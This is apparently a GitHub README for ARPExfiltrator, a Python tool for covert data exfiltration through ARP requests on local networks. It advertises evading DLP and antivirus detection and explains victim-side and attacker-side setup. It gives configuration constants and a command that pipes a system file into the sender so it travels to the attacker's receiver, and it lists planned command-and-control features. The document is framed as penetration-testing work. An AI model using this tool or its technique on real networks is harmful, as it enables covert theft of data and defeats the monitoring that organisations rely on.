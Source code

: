# ARPExfiltrator
![centos_shields](https://img.shields.io/badge/centos7-tested-blue.svg?style=popout-square&logo=red%20hat&logoColor=red) ![debian_shields](https://img.shields.io/badge/debian10-tested-blue.svg?style=popout-square&logo=debian&logoColor=red)
![python_shields](https://img.shields.io/badge/python-3.7-blue.svg?style=popout-square) ![pep8_shields](https://img.shields.io/badge/PEP%208-compliant-brightgreen.svg?style=popout-square) ![build_pass](https://img.shields.io/travis/rust-lang/rust.svg?style=popout-square)

## What is

Based on [Cloakify](https://github.com/TryCatchHCF/Cloakify)(presented during the ```DefCon24```), allows the data transfer through the ARP protocol in local networks. Using ARPExfiltrator is possible to evade DLP/MLS Devices and AV Detection systems. To compose, send and receive ARP requests the ```root``` permission is required.

## When use it

There are a lot of tools used to exfiltrate data that use various protocol to hide the data transition, like DNSExfiltration. In my experience, I try to exfiltrate data from a server during an on-site penetration testing using the DNS protocol, but after 1 minute of download I received a phone call from the IT department: ```What do you do on the server? Why it sends a lot of DNS resolution request to inexistent domains?```

## Dependency
- tcpdump

## How it works

The project is composed with two parts: the ```sender``` that runs on the victim machine, and the ```receiver``` that runs on the attacker machine.
The ```sender``` encode the string buffer using the base64 alghorithm and sends each letter of the encoded string as network IPv4 address. The ```receiver``` match each letter with a shared list of IPv4 address and decode the received base64 encoded string.

## Usage Example

### Attacker side

Configure the BPF(Berkeley packet filter) and network interface costants to receive only the ARP request that come from the victim machine. Below a configuration example:

```
__VICTIM_IPV4_ADDRESS__ = "192.168.56.113"
__NETWORK_INTERFACE__ = "vboxnet0"
```

Starts the receiver with ```./receiver.py```

### Victim side
Configure the ```__ARP_PROTO_SOURCE_ADDRESS__``` with the IPv4 address and ```__SOCKET_BIND_INTERFACE__``` with the name of interface where the IP address is binded. Below a configuration example:

```
__ETH_PROTO_TYPE__ = 0x0806
__ARP_HARDWARE_TYPE__ = 0x01 # Ethernet Type
__ARP_PROTOCOL_TYPE__ = 0x0800 # TCP TYPE
__ARP_HARDWARE_ADDRESS_SIZE__ = 0x06 # MAC Address Size
__ARP_PROTOCOL_ADDRESS_SIZE__ = 0x04 # Ipv4 Address Size
__ARP_OP_CODE__ = 0x01 # ARP Request Operation Code
__ARP_HW_SOURCE_ADDRESS__ = '08:00:27:10:f8:e7'
__ARP_PROTO_SOURCE_ADDRESS__ = '192.168.56.113'
__ARP_HW_DST_ADDRESS__ = '00:00:00:00:00:00'
__SOCKET_PROTO_TYPE__ = 0x0003 # Gateway-Gateway Protocol. See /etc/protocol to more details.
__SOCKET_BIND_INTERFACE__ = 'enp0s8'
```

Send a packet with ```cat /etc/os-release | ./sender.py``` for example

Below an example of data exfiltration using ARPExfiltrator

![screen1](./imgs/screen1.png)
![screen2](./imgs/screen2.png)

## Tips

Sometimes you need to use your custom IPv4 list. Inside the ```libs/ipAddresses``` you can find the list that I used in my last penetration testing experience. To genenerate a custom dictionary of IPv4 you can use a tool named ```prips```.
Example:
```
$: prips 192.168.5.1 192.168.5.254
192.168.5.1
192.168.5.2
192.168.5.3
192.168.5.4
192.168.5.5
192.168.5.6
192.168.5.7
192.168.5.8
192.168.5.9
192.168.5.10
192.168.5.11
192.168.5.12
192.168.5.13
192.168.5.14
192.168.5.15
192.168.5.16
192.168.5.17
192.168.5.18
192.168.5.19
192.168.5.20
192.168.5.21
192.168.5.22
192.168.5.23
....
192.168.5.254
```
## Evolutions:

- C&C function
- Increase performance using the other ARP Header fields








